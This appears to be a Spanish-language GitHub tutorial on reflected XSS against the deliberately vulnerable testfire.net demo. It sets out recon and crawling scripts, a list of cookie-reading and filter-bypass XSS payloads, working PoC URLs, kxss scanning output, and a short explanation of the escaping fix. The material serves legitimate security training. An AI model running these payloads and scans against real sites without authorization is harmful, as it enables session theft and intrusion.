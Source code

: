 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_token] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener token github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<td valign="top" colspan="3" class="bb">
 <div class="fl" style="width: 99%;">
  <h1>Search Results</h1>
	<p>No results were found for the query:<br /><br />
	<script>alert(document.location)</script>
 </div>    
</td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## 7. Automatizar Busqueda Reflected XSS
> Nos apoyamos de la tools gf para encontrar parametros comunes con posibles xss reflect
```bash
go install github.com/tomnomnom/gf@latest
#clonar patrones
mkdir -p ~/.gf
git clone https://github.com/1ndianl33t/Gf-Patterns
cp Gf-Patterns/*.json ~/.gf
```
<details>
<summary>📜 xss.json</summary>

```bash
$  cat ~/.gf/xss.json
{
     "flags": "-iE", 
     "patterns": [
"q=",
"s=",
"search=",
"lang=",
"keyword=",
"query=",
"page=",
"keywords=",
"year=",
"view=",
"email=",
"type=",
"name=",
"p=",
"callback=",
"jsonp=",
"api_key=",
"api=",
"password=",
"email=",
"emailto=",
"token=",
"username=",
"csrf_token=",
"unsubscribe_token=",
"id=",
"item=",
"page_id=",
"month=",
"immagine=",
"list_type=",
"url=",
"terms=",
"categoryid=",
"key=",
"l=",
"begindate=",
"enddate="

]
}
```
</details>

> Filtrar el fichero que contiene las url katana que contengan patrones xss

```bash
cat testfire.net_katana_results.txt | gf xss

https://demo.testfire.net/survey_questions.jsp?step=a
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/disclaimer.htm?url=http://www.microsoft.com
https://demo.testfire.net/disclaimer.htm?url=http://www.netscape.com 
```
> Es necesario hacer análisis manual y pruebas para confirmar la vulnerabilidad.
```bash
#payload:
<script>alert(document.cookie)</script>
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
![image](https://github.com/user-attachments/assets/0c5a3d6a-883c-4322-825a-73bc2747f7f3)

<!-- espacio -->
> Kxss
>> Kxss parametros previos filtrados

```bash
cat demo.testfire.net_katana_results.txt 
https://demo.testfire.net
...
https://demo.testfire.net/survey_questions.jsp?step=a
```
```bash
cat demo.testfire.net_katana_results.txt | grep = | kxss > kxss_test.txt  
```
```bash
cat kxss_test.txt  
URL: https://demo.testfire.net/index.jsp?content=business_retirement.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; 
...
URL: https://demo.testfire.net/index.jsp?content=inside_press.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=business_cards.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=inside_careers.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
>> Kxss usando urlfinder (10/10)
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
nano kxss_scan.sh
chmod +x kxss_scan.sh
./kxss_scan.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo con subdominios
SUBDOMAINS_FILE="testfire.net_all_subs.txt"
# Carpeta de salida
OUTPUT_DIR="kxss_results"
# Crear carpeta si no existe
mkdir -p "$OUTPUT_DIR"

# Iterar sobre cada subdominio
while read -r sub; do
    echo "[*] Escaneando: $sub"
    
    # Normalizar nombre para el fichero de salida
    OUT_FILE="${OUTPUT_DIR}/${sub//./_}.txt"
    
    # Ejecutar pipeline
    urlfinder -d "$sub" | grep = | kxss > "$OUT_FILE"
    
    echo "[+] Resultados guardados en: $OUT_FILE"
done < "$SUBDOMAINS_FILE"

echo "[✔] Escaneo finalizado. Revisa la carpeta: $OUTPUT_DIR"
```
</details>

![image](https://github.com/user-attachments/assets/823d512c-4896-49a8-ab51-e5d9f42f5349)
![image](https://github.com/user-attachments/assets/fc70261a-1db1-4879-828a-50a5806e9cec)

```bash
└─$ cat altoro_testfire_net.txt  
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm&job=LoyaltyMarketingProgramManager:Marketing Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
...
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: http://altoro.testfire.net/index.jsp?content=personal_loans.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
<!-- espacio -->
<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*
>>>>*Referencias: [AmrSec](https://www.youtube.com/watch?v=bAHNM8IInwE&ab_channel=AmrSec)*
>>>>>*Referencias: [Javo y LemonOfTroy](https://www.youtube.com/watch?v=EUWEdaNvxSM&ab_channel=ThreatXSecurity)*

